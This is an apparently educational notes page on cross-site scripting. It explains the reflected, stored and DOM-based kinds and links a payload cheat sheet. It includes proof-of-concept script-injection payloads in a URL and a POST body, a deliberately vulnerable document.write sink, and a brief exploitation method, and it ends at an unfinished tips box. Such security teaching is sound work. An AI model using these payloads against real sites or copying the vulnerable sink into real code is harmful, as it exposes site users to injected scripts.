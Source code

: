 # XSS

Cross-site scripting (XSS) works by manipulating a vulnerable web site so that it returns malicious JavaScript to users

XSS cheatsheet: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

<details><summary>Do not use alert(1)</summary></details>

## <mark style="color:yellow;">**Reflected XSS**</mark>

The malicious script comes from the current HTTP request.

```
https://insecure-website.com/search?term=<script>alert(document.domain)</script>
```

## <mark style="color:yellow;">**Stored XSS**</mark>

The malicious script comes from the website's database. POST example:&#x20;

```
comment=<script>alert(document.domain)</script>
```

## <mark style="color:yellow;">**DOM-based XSS**</mark>

The vulnerability exists in client-side code rather than server-side code.

```html
<script>
function trackSearch(query) {
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
</script>
```

```sh
# Get request 
https://insecure-website.com/index?search="><script>alert(document.domain)</script>
```

**Methodology**

1. Look for any script that has a sinks
2. See if you can control the sink
3. Exploit it

{% hint style="success" %}
**Tips**:
